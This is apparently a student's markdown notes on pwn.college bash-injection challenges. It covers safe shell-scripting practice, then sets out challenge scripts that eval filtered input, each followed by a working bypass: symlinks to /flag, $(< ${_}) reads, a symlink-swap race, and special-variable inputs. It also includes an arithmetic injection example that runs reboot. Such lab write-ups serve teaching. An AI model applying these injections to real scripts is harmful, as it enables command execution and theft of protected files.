 # Environment Attacks
Always specify absolute paths when executing binaries or other scripts. If your script runs other scripts or binaries that do not use absolute paths internally, you should explicitly set the value of the PATH environment variable in your scripts to prevent problems.
(unset PATH not always works)
# Unquoted Variable Expansion
Always use quotes when accessing arguments
# Shell's Filename Expansion (also known as globbing)
idk warning?
# Enimgma of The Evironment
+ Check for user-controllable variables being passed to declare statements
+ Flag any script that allows arbitrary variable names in declare statements
+ Identify unquoted variables that are executed as commands (like $PROGRAM)
+ Flag variable assignments that could be influenced by user input and later executed
+ Look for cases where user input directly influences what command gets executed
# Tale of The Test
If the contents of $foo are not sanitised and are out of your control (if for instance they're coming from an external source), then all but [ "$foo" -gt 7 ] constitute an arbitrary command injection vulnerability as the contents of $foo are interpreted as an arithmetic expression (and for instance, the a[$(reboot)] arithmetic expression would run the reboot command when evaluated). The [ builtin requires the operands be decimal integers, so it's not affected. But it's critical that $foo be quoted, or you'd still get a command injection vulnerability (for instance with values such as -v a[$(reboot)] -o 8).

If the input to any arithmetic context (including ((, let, array indices), or [[ … ]] test expressions involving numeric comparisons can't be guaranteed then you must always validate your input before evaluating the expression.

# Rhythm of Restriction
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
/challenge/run
$(< ${_})
```
```
${_} is a special variable in Bash that usually contains the last argument of the previous command which in our case is INPUT.
$(< ${_}) is a command substitution that reads the contents of the file whose path is stored in ${_}. This is a shorthand in Bash for $(cat ${_}).
```
### vuln
directly executing clients ipnut

# Odyssey of the Octal
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
$(< ${_})
```
# Riddle of the Radix
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read -r INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
creat symlink to /challenge/run
``` sh
ln -s /challenge/run smth
```
run the challenge with symlink using full path
``` sh
/home/hacker/smth
```
before passing input to challenge, in another terminal remove the symlink and create some program with same name as a symlink that reads /flag
``` sh
#!/usr/bin/bash

cat /flag
```
pass $0 to challenge as an input
# Whisper of the Withheld
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
Solution to Riddle of the Radix works jus as well
# Path of the Unseen
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z0-9.~]")
        eval "$INPUT"
}

doit
```
### sol
Same solution as to Riddle of the Radix but pass ${!#} as an input to challenge
